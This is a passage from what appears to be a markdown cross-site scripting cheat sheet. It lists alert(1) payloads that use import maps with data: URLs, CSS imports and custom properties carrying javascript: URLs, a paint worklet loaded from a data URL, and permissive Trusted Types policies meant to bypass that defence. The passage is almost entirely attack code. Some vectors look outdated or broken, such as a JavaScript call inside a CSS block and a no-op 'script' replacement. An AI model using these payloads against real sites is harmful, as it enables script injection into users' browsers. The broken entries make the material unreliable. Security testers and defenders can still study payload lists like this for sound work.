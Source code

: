 **ES6 import maps for XSS:**

```html
<script type="importmap">
{
  "imports": {
    "safe-module": "data:text/javascript,alert(1)"
  }
}
</script>
<script type="module">
  import 'safe-module';
</script>
```

### CSS Injection to XSS

**Advanced CSS-based XSS vectors:**

```css
/* CSS injection leading to XSS */
@import url('data:text/css,@import url("javascript:alert(1)")');

/* Using CSS custom properties */
:root {
  --xss: url('javascript:alert(1)');
}

/* CSS Houdini worklet exploitation */
CSS.paintWorklet.addModule('data:text/javascript,alert(1)');

/* CSS @supports with expression */
@supports (display: -webkit-box) {
  body::before {
    content: url('javascript:alert(1)');
  }
}
```

### Trusted Types Bypass

**Exploiting Trusted Types implementation flaws:**

```javascript
// Bypassing via policy manipulation
trustedTypes.createPolicy('default', {
  createHTML: (input) => input,
  createScript: (input) => input
});

// Policy name collision
trustedTypes.createPolicy('myPolicy', {
  createHTML: (s) => s.replace(/script/gi, 'script')
});
```

---